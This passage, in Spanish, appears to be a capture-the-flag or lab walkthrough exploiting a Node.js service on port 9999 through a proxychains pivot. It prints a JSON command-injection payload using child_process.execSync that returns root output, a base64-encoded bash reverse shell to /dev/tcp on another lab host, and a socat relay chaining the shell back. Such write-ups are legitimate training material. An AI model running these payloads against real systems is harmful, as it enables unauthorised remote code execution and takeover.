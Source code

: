 Visitando el puerto 9999, nos dice que solo acepta peticiones por `POST`

![Image 23](/assets/images/grandma/post.png) 

Enviamos la petición por post con curl y vemos lo siguiente 

```python 
❯ proxychains curl -s -X POST "http://40.40.40.3:9999"
ProxyChains-3.1 (http://proxychains.sf.net)
|D-chain|-<>-127.0.0.1:7777-<>-127.0.0.1:8888-<--timeout
|D-chain|-<>-127.0.0.1:7777-<>-127.0.0.1:1080-<--timeout
|D-chain|-<>-127.0.0.1:7777-<><>-40.40.40.3:9999-<><>-OK
{"message":"POST request received","users":[{"id":1,"name":"DrZunder"},{"id":2,"name":"DrMario"},{"id":3,"name":"App"},{"id":4,"name":"Node"},{"id":"Error","name":"Command error"}]}%  
```

Ese mensaje de error indica que la web esta deserializando el contenido JSON de manera insegura, asi que vamos a probar a inyectar un comando 

```python
❯ proxychains curl -s -X POST "http://40.40.40.3:9999" -H 'Content-Type: application/json' -d '{"id": "require(\"child_process\").execSync(\"id\").toString()"}'
ProxyChains-3.1 (http://proxychains.sf.net)
|D-chain|-<>-127.0.0.1:7777-<>-127.0.0.1:8888-<--timeout
|D-chain|-<>-127.0.0.1:7777-<>-127.0.0.1:1080-<--timeout
|D-chain|-<>-127.0.0.1:7777-<><>-40.40.40.3:9999-<><>-OK
{"message":"POST request received","users":[{"id":1,"name":"DrZunder"},{"id":2,"name":"DrMario"},{"id":3,"name":"App"},{"id":4,"name":"Node"},{"id":"Error","name":"Command error"}],"result":"uid=0(root) gid=0(root) groups=0(root)\n"}
```

<br> 

# Intrusión

Tenemos ejecución remota de comandos, vamos a enviarnos la última shell que será redirigida con socat por todas las máquinas anteriores 

```python 
❯ echo "bash -i >& /dev/tcp/40.40.40.2/666 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC80MC40MC40MC4yLzY2NiAwPiYxCg==
```

```python 
// Payload 
❯ proxychains curl -s -X POST "http://40.40.40.3:9999" -H 'Content-Type: application/json' -d '{"id": "require(\"child_process\").execSync(\"echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC80MC40MC40MC4yLzY2NiAwPiYxCg=='|base64 -d|bash\").toString()"}'
ProxyChains-3.1 (http://proxychains.sf.net)
|D-chain|-<>-127.0.0.1:7777-<>-127.0.0.1:8888-<--timeout
|D-chain|-<>-127.0.0.1:7777-<>-127.0.0.1:1080-<--timeout
|D-chain|-<>-127.0.0.1:7777-<><>-40.40.40.3:9999-<><>-OK
```
```python
// Shell redirect grandma 3 --> grandma 2 
./socat TCP-LISTEN:666,fork TCP:30.30.30.2:666 & disown
```
